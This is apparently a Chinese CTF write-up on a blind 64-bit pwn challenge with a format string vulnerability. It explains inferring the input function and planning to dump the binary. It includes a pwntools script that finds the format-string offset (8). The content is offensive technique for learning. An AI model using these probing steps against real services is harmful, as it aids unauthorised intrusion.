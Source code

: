 # Blindpwn-64位有偏移

## 题目分析

首先没有题目,只有端口,连接上去,测试,发现,存在格式化字符串漏洞

然后同时也没有任何数据的回显,只是不断的重复循环,输出你输入的内容

这里需要注意的是,可以通过输入空格或者特殊字符来初步猜测的判断,输入函数是gets还是scanf还是read...因为这三者对于输入的数据的读取是不同的,就比如我本次输入```1\n```,它却显示了两个换行,那么这个很可能是read函数用来接收输入,但这里只能是猜测,因为read是最好的利用函数...

那么,开始思考,我们目前没有任何有用的信息,该如何获取到有用的信息

这里就需要对于pwn进行盲打,dump整个程序下来...

然后根据dump下来的程序来寻找程序的地址,进行分析

同时因为输入%p 返回的是8个字节的数据,所以是64位程序

## dump程序

### 计算偏移

dump程序需要首先知道格式化字符串函数的偏移

所以step 1--计算偏移

由于不喜欢手算,直接pwntools跑,加

```python
#-*- coding:utf-8 –*-
from pwn import *
from LibcSearcher import LibcSearcher
#context.log_level='debug'
#context(arch = 'i386', os = 'linux', log_level='debug')
context(arch = 'amd64', os = 'linux', log_level='debug')
#log_level=['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
elfFileName = "./stilltest"
libcFileName = ""
ip = "0.0.0.0"
port = 10001

Debug = 1
if Debug:
    io = process(elfFileName)
else:
    io = remote(ip,port)

# calculate the offset
def exec_fmt(payload):
	io.recvuntil("\nPlease tell me:")
	io.sendline(payload)
	info = io.recvuntil("\n")
	return info


auto = FmtStr(exec_fmt)
offset = auto.offset
print "offset is "+ str(offset)

io.interactive()

'''
[*] Found format string offset: 8
offset is 8
'''
```